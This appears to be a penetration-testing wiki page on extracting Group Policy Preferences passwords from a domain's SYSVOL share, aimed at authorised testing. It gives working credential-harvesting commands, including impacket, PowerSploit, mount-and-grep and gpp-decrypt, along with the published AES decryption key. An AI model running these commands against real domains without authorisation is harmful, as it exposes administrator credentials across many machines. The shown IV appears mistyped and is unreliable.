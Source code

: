 # SYSVOL & Group Policy Preferences

Windows systems come with a built-in Administrator (with an RID of 500) that most organizations want to change the password of. This can be achieved in multiple ways but there is one that is to be avoided: setting the built-in Administrator's password through Group Policies.

The first problem is that the password is set to be the same for every (set of) machine(s) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all (or set of) machines. by default, knowing the built-in Administrator's hash (RID 500) allows for powerful attacks. <mark style="color:green;">**all Group Policies are stored in the Domain Controllers' SYSVOL share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted.**</mark>

From UNIX-like systems, [this python script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) in the impacket examples can be used to remotely parse .xml files and loot for passwords

```powershell
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'
​
# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
​
# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

Alternatively, searching for passwords can be done manually (or with Metasploit's smb\_enum\_gpp module), however it requires mounting the SYSVOL share, which can't be done through a docker environment unless it's run with privileged rights. Tools like pypykatz and gpp-decrypt can then be used to decrypt the matches.

```tsconfig
# create the target directory for the mount
sudo mkdir /tmp/sysvol
​
# mount the SYSVOL share
sudo mount\
    -o domain='domain.local'\
    -o username='someuser'\
    -o password='password'\
    -t cifs\
    '//domain_controller/SYSVOL'\
    /tmp/sysvol
​
# recursively look for "cpassword" in Group Policies
sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null
​
# decrypt the string and recover the password
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```

From Windows systems, the GPP password can only be recovered from an authenticated (i.e. domain user) context. ​powersploit's `get-gpppassword` searches a Domain Controller's SYSVOL share Groups.xml, Services.xml, Scheduledtasks.xml, DataSources.xml, Printers.xml and Drives.xml files and returns plaintext passwords

```powershell
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

This can also be achieved without tools, by "manually" looking for the cpassword string in xml files and by then manually decrypting the matches

```powershell
findstr /S cpassword %logonserver%\sysvol\*.xml
```

The decryption process is as follows

```powershell
1. decode from base64
2. decrypt from AES-256-CBC the following hex key/iv
    Key : 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
    IV : 0000000000000000000000000000000
3. decode from UTF-16LE
```
